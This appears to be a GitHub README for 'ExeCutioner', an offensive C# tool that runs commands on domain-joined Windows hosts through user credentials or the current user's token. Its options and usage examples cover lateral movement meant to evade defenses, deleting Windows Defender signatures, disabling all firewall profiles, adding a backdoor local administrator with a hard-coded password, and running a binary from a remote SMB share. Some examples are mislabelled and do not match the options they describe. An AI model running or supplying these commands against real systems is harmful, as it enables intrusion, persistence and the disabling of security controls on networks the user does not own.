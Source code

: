 # ExeCutioner


![image](https://user-images.githubusercontent.com/57995347/164909586-9938ba03-3381-4750-ab95-3f69c261f625.png)



This is an Offensive C# Tool written to execute commands on Domain-joined Windows hosts by either taking user supplied creds (username/password) or leveraging the logged-on user's access token.

It also supports a "PsExeclike" lateral movement technique that attempts to fly under the radar of basic defenses and can be used to clear AV Definitions to further make attacks easier.

                      
```
ExeCutioner.exe /t <target> /user <username>  /pass <password>  /domain <domain> <command-to-run>
```

Options:
```
/addadmin - adds a local administrator called newguy with password MakeLife123 to target
/cmd - allows for the execution of commands on the target
/domain - allows for the specification of target domain
/noav - deletes Windows Defender's signatures
/nofw - disables all target firewall profiles
/pass - specifies password to use
/t - specifies the target
/syscreds - ignores the user specified and uses the token of the currently logged in user
/user - specifies the target user account
```

Usage:
```
ExeCutioner.exe /t <target> /user <username>  /pass <password>  /domain <domain> <command-to-run>

Usage: Examples:
ExeCutioner.exe /?  - show's this help menu 

//Authenticate to target with username and password and disable firewall profiles
ExeCutioner.exe /t <target name or IP> /user <username> /pass <password> /domain <domain> /nofw true

//Authenticate to target with current user token and turn off av - useful and facilitates easier lateral movement/code execution
ExeCutioner.exe /t <target name or IP> /syscreds true /nofw true

//Authenticate to target with current user token and execute command
ExeCutioner.exe /t <target name or IP> /cmd <command-to-run-in-qoutes>

//Authenticate to target with current user token and execute binary for lateral movement
ExeCutioner.exe /t <target name or IP> /cmd <\\192.168.10.8\\lateralmovement.exe>

//Authenticate to target with current user token and add a new Local Administrator - username "newguy" with password "MakeLife123"
ExeCutioner.exe /t <target name or IP> /cmd <\\192.168.10.8\\lateralmovement.exe>
```

# Credits
- Heavily inspired by and leveraged code from "[chvancooten's Code Snippets](https://github.com/chvancooten/OSEP-Code-Snippets)" 
- Great resource from "[Microsoft](https://docs.microsoft.com/en-us/dotnet/api/system.security.principal.windowsidentity.impersonate?view=netframework-4.8)"


